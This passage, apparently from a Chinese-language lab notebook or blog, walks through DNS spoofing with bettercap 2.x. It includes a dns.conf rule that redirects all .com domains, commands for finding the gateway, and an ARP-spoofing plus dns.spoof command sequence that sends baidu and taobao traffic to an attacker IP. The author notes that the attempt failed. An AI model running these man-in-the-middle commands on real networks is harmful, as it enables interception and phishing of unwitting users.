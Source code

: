 创建一个 dns.conf 文件，下面这个dns语句的意思是：所有的.com结尾的网站全部解析到我的本地Http服务器, .*\.com就是一个正则，也可以是自定义的正则　

```shell
169.254.197.219  .*\.com
```

### 查看网关地址

```shell
netstat -rn
route -n　　
```

因为安装的使bettercap2.x，感觉没有1.x操作简单，完全变了。所以重新找到一篇[文章](https://blog.csdn.net/qq_36119192/article/details/84582109)实验:

dns欺骗这里有一个前提，那就是局域网内的主机的DNS服务器是局域网内的网关，那样我们才能进行DNS欺骗，如果DNS服务器设置的是公网的DNS服务器，比如设置的谷歌的8.8.8.8 DNS服务器的话，这样是不能进行DNS欺骗的。

```shell
ipconfig/all    #查看DNS服务器
```

![分享图片](../../../../_ImageAssets/20191103181548163464.png)

DNS欺骗之前，我们先得进行ARP欺骗，就是先欺骗主机让其认为网关就是我(攻击机)。然后由于主机的DNS服务器就是网关，所以主机会向我们发送DNS请求，这样我们就可以进行欺骗了。

```shell
set arp.spoof.targets 192.168.41.128    #设置arp欺骗的主机以逗号分隔，默认是整个子网
arp.spoof on    #先开启arp欺骗
set dns.spoof.domains www.baidu.com,www,taobao.com  #设置要欺骗的域名,多个域名用,分开，如果要欺骗所有的域名的话，为 * 
set dns.spoof.address 100.66.10.247   #设置将要欺骗的域名转换成对应的ip地址
dns.spoof on   #开启dns欺骗，www.baidu.com和www.taobao.com对应的ip是100.66.10.247
```

使用bettercap2.x实验失败，一直返回endpoint。
